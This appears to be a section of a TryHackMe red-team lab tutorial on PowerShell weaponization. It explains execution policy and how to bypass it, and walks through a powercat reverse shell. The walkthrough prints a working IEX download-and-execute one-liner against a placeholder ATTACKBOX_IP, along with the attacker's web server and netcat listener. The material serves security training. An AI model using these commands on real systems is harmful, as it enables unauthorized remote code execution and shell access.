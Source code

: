 ## PowerShell (PSH)

PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses. Check out the TryHackMe room, [Hacking with PowerShell for more information about PowerShell](https://tryhackme.com/room/powershell).  

Red teamers rely on PowerShell in performing various activities, including initial access, system enumerations, and many others. Let's start by creating a straightforward PowerShell script that prints "Welcome to the Weaponization Room!" as follows,

```powershell
Write-Output "Welcome to the Weaponization Room!"
```

Save the file as thm.ps1. With the Write-Output, we print the message "Welcome to the Weaponization Room!" to the command prompt. Now let's run it and see the result.

````shell
C:\Users\thm\Desktop>powershell -File thm.ps1
File C:\Users\thm\Desktop\thm.ps1 cannot be loaded because running scripts is disabled on this system. For more
information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
    + CategoryInfo          : SecurityError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : UnauthorizedAccess

C:\Users\thm\Desktop>
````

## Execution Policy

PowerShell's execution policy is a security option to protect the system from running malicious scripts. By default, Microsoft disables executing PowerShell scripts .ps1 for security purposes. The PowerShell execution policy is set to Restricted, which means it permits individual commands but not run any scripts.  

You can determine the current PowerShell setting of your Windows as follows,

````shell
PS C:\Users\thm> Get-ExecutionPolicy
Restricted
````

We can also easily change the PowerShell execution policy by running:

````shell
PS C:\Users\thm\Desktop> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes [A] Yes to All [N] No [L] No to All [S] Suspend [?] Help (default is "N"): A
````

## Bypass Execution Policy

Microsoft provides ways to disable this restriction. One of these ways is by giving an argument option to the PowerShell command to change it to your desired setting. For example, we can change it to bypass policy which means nothing is blocked or restricted. This is useful since that lets us run our own PowerShell scripts.  

In order to make sure our PowerShell file gets executed, we need to provide the bypass option in the arguments as follows,

````shell
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!
````

Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is powercat. On your AttackBox, download it from GitHub and run a webserver to deliver the payload.

````shell
user@machine$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.
````

Now, we need to set up a web server on that AttackBox to serve the powercat.ps1 that will be downloaded and executed on the target machine. Next, change the directory to powercat and start listening on a port of your choice. In our case, we will be using port 8080.

````shell
user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
````

On the AttackBox, we need to listen on port 1337 using nc to receive the connection back from the victim.

````shell
user@machine$ nc -lvp 1337
````

Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows,

````shell
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
````

Now that we have executed the command above, the victim machine downloads the powercat.ps1  payload from our web server (on the AttackBox) and then executes it locally on the target using cmd.exe and sends a connection back to the AttackBox that is listening on port 1337. After a couple of seconds, we should receive the connection call back:

````shell
user@machine$ nc -lvp 1337  listening on [any] 1337 ...
10.10.12.53: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.12.53] 49804
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>
````

